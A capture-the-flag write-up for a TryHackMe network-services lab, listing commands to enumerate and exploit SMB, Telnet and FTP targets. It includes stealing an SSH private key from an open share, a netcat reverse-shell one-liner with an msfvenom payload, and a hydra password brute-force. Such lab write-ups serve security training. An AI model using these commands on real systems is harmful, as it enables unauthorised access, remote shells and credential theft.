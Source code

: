 <!-- TOC -->

- [Network Services](#network-services)
    - [SMB](#smb)
    - [Telnet](#telnet)
    - [FTP](#ftp)

<!-- /TOC -->

# Network Services

[Network Services Room](https://tryhackme.com/room/networkservices)

Learn about, then enumerate and exploit a variety of network services and misconfigurations.

## SMB

| Title | IP Address |
| :---- | :---- |
| polosmb3 | `1*.**.***.***` |

RHOST:

```bash
enum4linux -a 1*.**.***.***
smbclient //1*.**.***.***/<share> -U ""
more "Working From Home Information.txt"
cd .ssh
get id_rsa
```

LHOST:

```bash
mv id_rsa cactus_id_rsa
chmod 600 cactus_id_rsa
ssh -i cactus_id_rsa cactus@1*.**.***.***
```

> `THM{***_**_***_**?}`

## Telnet

| Title | IP Address |
| :---- | :---- |
| POLOTELNET | `1*.**.***.*` |

LHOST:

```bash
sudo nmap -p- -sC -sV -T4 1*.**.***.*
telnet 1*.**.***.* 8012
sudo tcpdump ip proto \\icmp -i tun0
```

RHOST:

```bash
.RUN ping 1*.**.**.*** -c 1
```

LHOST:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=1*.**.**.*** lport=80
sudo nc -lvnp 80
```

RHOST:

```bash
.RUN mkfifo /tmp/ctwbwm; nc 1*.**.**.*** 80 0</tmp/ctwbwm | /bin/sh >/tmp/ctwbwm 2>&1; rm /tmp/ctwbwm
```

> `THM{***_***_***_******_****}`

## FTP

| Title | IP Address |
| :---- | :---- |
| ftpfinal | `1*.**.***.***` |

LHOST:

```bash
sudo nmap -sV -sC -T4 -Pn 1*.**.***.***
ftp 1*.**.***.***
```

RHOST:

```bash
ls
more PUBLIC_NOTICE.txt
```

LHOST:

Using mike:p*******

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 1*.**.***.*** ftp
ftp 1*.**.***.***
```

> `THM{***_***_***_***_****}`

